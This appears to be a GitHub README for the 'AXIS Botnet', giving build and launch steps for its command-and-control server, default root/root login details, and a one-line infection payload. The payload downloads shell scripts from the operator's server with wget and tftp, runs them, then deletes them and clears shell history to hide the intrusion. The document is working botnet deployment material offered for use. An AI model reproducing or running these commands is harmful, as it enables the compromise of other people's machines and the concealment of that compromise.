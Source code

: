 # AXIS Botnet new

### INFO:
Fixed compiler and some bug in script 

### Installation:
* Linux only:
  * **recommended to use Centos 7**
  * `important don't forget to change ip in AXIS_CC.c`
  * `sudo python3 build.py AXIS_CC.c (server-ip)`
  * `gcc AXIS_CNC.c -o AXIS -pthread`
  * `sudo screen ./AXIS 606 1 909`
  
### Connect
* SSH Config:
  * PORT: 909
  * TYPE: RAW
  
* Password (default)
  * username: root
  * password: root
  
### Payload
* Payload: cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://(server-ip)/AXIS.sh; chmod 777 *; sh AXIS.sh; tftp -g (server-ip) -r tftp1.sh; chmod 777 *; sh tftp1.sh; rm -rf *.sh; history -c"
